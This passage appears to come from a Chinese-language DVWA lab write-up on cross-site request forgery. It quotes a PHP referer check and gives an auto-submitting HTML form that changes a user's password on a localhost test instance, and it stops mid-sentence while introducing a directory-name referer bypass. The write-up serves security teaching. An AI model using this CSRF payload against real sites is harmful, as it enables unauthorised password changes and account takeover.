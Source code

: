 



php

```php
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false )
```

如果 HTTP_REFERER 和 SERVER_NAME 不是来自同一个域的话就无法进行到循环内部，执行修改密码的操作。

这个时候需要我们手动伪造 referer 来执行 CSRF 攻击:



![img](https://image.3001.net/images/20200526/1590484054728.png)

**img**



当然受害者肯定不会帮我们手动添加 referer 的，因为代码使用了 `stripos` 函数来检测 referer，所以这个时候我们得精心构造好一个 html 页面表单：





html

```html
<html>
<head>
    <meta charset="utf-8">
    <title>CSRF</title>
</head>
<body>

<form method="get" id="csrf" action="http://127.0.0.1:8888/vulnerabilities/csrf/">
    <input type="hidden" name="password_new" value="222">
    <input type="hidden" name="password_conf" value="222">
    <input type="hidden" name="Change" value="Change">
</form>
<script> document.forms["csrf"].submit(); </script>
</body>
</html>
```

该表单通过：





javascript

```javascript
<script> document.forms["csrf"].submit(); </script>
```

实现自动触发提交 id 为 csrf 的表单，这个在实战中是比较实用的一个技巧。

1. **目录混淆 referer**

将上述 html 页面放到服务器的 `127.0.0.1` 目录下，然后让用户访问自动触发提交然后访问构造好的 payload 地址：
